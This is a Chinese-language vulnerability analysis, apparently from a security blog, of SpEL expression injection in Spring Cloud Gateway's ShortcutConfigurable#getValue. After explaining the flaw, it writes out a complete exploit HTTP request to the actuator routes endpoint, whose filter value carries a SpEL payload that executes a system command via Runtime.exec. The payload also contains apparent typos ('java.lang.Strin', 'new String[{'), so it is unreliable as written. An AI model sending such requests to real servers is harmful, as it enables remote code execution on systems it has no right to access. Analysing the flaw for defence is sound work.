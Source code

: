 ### SpEL表达式

Spring表达式语言（简称 SpEL，全称Spring Expression Language）是一种功能强大的表达式语言，支持在运行时查询和操作对象图。它语法类似于OGNL，MVEL和JBoss EL，在方法调用和基本的字符串模板提供了极大地便利，也开发减轻了Java代码量。另外 , SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

## 漏洞分析

### 漏洞点分析

查看类的继承关系，发现所有的内置`filterFactory`都实现了`ShortcutConfigurable`接口，所以添加的过滤器都会经过`ShortcutConfigurable`

![20220410180153](https://raw.githubusercontent.com/dre4merp/Drawing-bed/main/images/20220410180153.png "20220410180153.png")

漏洞点就位于`org.springframework.cloud.gateway.support.ShortcutConfigurable#getValue`中，查看源码发现`filter`的参数支持SpEL表达式，而且是通过`StandardEvaluationContext`使用表达式，完美满足了SpEL表达式注入的条件。

``` java
static Object getValue(SpelExpressionParser parser, BeanFactory beanFactory, String entryValue) {
    Object value;
    String rawValue = entryValue;
    if (rawValue != null) {
        rawValue = rawValue.trim();
    }
    if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
        // assume it's spel
        StandardEvaluationContext context = new StandardEvaluationContext();
        context.setBeanResolver(new BeanFactoryResolver(beanFactory));
        Expression expression = parser.parseExpression(entryValue, new TemplateParserContext());
        value = expression.getValue(context);
    }
    else {
        value = entryValue;
    }
    return value;
}
```

### 漏洞利用

#### 创建路由

``` text
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Type: application/json
Content-Length: 340

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.Strin(T(org.springframework.util.StreamUtils).copyToByteArray((java.lang.Runtime).getRuntime().exec(new String[{\"calc\"}).getInputStream()))}"}
    }],
  "uri": "https://blog.dre4merp.top",
  "order": 0
}
```